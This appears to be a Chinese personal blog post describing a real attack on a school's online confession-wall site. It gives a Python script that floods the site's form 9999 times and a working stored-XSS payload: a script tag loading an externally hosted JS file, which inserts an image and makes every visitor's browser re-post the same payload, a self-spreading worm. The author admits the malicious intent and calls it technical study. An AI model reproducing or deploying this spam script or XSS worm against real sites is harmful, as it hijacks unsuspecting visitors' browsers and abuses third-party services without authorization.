 ```yaml
---
layout: testpage
title: "XSS让每个人都帮我表白 (无对象技术测试)"
date: 2015-02-06 09:22
comments: true
author: MewX
published: true
categories: [life, python]
---
```


　　最近觉得学校的表白墙很好玩，而且人气也挺不错。有表白排行之类的有趣功能，经常能看到人刷屏、刷排行之类的。  

　　14号不就是情人节了嘛，最近肯定是表白人气最旺的时段了，妥妥地来凑个热闹。  

　　但是光是自己表白没啥意思啊，比如说我看到系统挺渣，我就用python写了个脚本一直刷，刷了9999次对吧。（下面这段代码把action地址给隐去了 =。=）  

<?prettify lang=python?>
    def tryPost( receiver, sender, msg):
        postData = 'save=1&book_title='+urllib.quote(receiver)+'&book_name='
                +urllib.quote(sender)+'&book_body='+urllib.quote(msg)
                +'&submit=%E5%8F%91%E5%B8%83';
        #print(postData);
        req = urllib2.Request(BaseURL,postData);
        req.add_header('Referer', BaseURL);
        urllib2.urlopen(req);
        return;

    for i in range(0,9999):
        tryPost('P^2','Anonymous','You know who.');

　　  

　　效果图如下，直接给刷了9999次。  
<center><a href="{{ site.cdn }}imgs/201502/01-9999-loves.jpeg" target="_blank"><img src="{{ site.cdn }}imgs/201502/01-9999-loves.jpeg" style="max-width:100%; height:auto;"/></a></center>  

　　看代码的时候应该可以看到，这表单竟然提交了一个submit元素上去，真是用(sang)心(xin)良(bing)苦(kuang)啊，为后面XSS增加了难度呢！  

　　  

　　下面来XSS。之前说了这个表白留言系统超级渣啊，没有验证码、没有XSS过滤呢。我这边可以插入任意html代码的。  

　　现在我要做到的目标就是让每个访问这个页面的人帮我向target表白！  

　　  

　　**这部分的技术难点：**  

　　1. 嵌入XSS代码；  

　　2. XSS代码长度限制在200以内；（测试发现数据库的varchar长度是200字节，html进行POST的时候会进行转义编码即“汉字”会变成“%XX%XX%XX”）  

　　3. 因为一页可能会有多遍script载入，所以在载入多遍script的时候需要保证效果只有一次，不然就直接刷屏了，太没节操了；  

　　4. POST返回值要无视掉，不然会接收到一段alert代码，影响用户体验；  

　　5. 使用jQuery在网页顶部插入表白图片，这部分用纯JS的话很麻烦，默认只能appendChild添加在末尾；  

　　6. 因为有一个元素叫submit，所以不能使用form.submit()，否则会触发object is not an method错误；

　　  

　　提交的XSS代码：  

<?prettify lang=javascript?>
    <script type="text/javascript" src="http://mewx.org/js/xss.js"></script>

　　上面这部分代码已经压缩到最短了，本来准备在前面添加一段图片的，结果直接就超长了，图片添加挪到xss.js里面了。  

　　P.S. 刚刚push上来发现自己网页被挂上那个脚本了 \_(:3」∠)\_ 好吧。最后检查时少了个问号。。  

　　  

　　XSS.JS：  

<?prettify lang=javascript?>
    // 省略 jQuery 代码

    $(document).ready(function(){

        var obj = document.getElementById("LoveX");
        if(obj) return;

        $("body:first").prepend("<img id=\"LoveX\" src=\"http://www.dwz.cn/XXXXX\" style=\"width:350px;height:350px\"/>");
        //$(".LoveX").insertAfter("header");

        // Ajax
        var params = {save:1,book_title:'此处打码',book_name:'MewX',book_body:'<script type=\"text/javascript\" src=\"http://mewx.org/js/xss.js\"></script>',submit:'发布'};
        url = 'http://xxxxxxxxx.sinaapp.com/add_express.php';
        $.post(url,params,function(data){
            // ignore data
        });
    })

　　  

　　最终效果：如图，每个访问该页面的人都会帮我提交一份表白啦！~~
<center><a href="{{ site.cdn }}imgs/201502/02-XSS-express-love.jpeg" target="_blank"><img src="{{ site.cdn }}imgs/201502/02-XSS-express-love.jpeg" style="max-width:100%; height:auto;"/></a></center>  

　　不知到2月14号会有多少访问量呢？哈哈，刚刚看到有人和我的脚本对刷！！！  

　　  

　　----------  

　　  

　　补：以上纯属闹剧，表白对象与我也毫无干系 \_(:з」∠)\_ 各位借此能了解一下XSS便好。以上恶意举动仅作技术研究。  
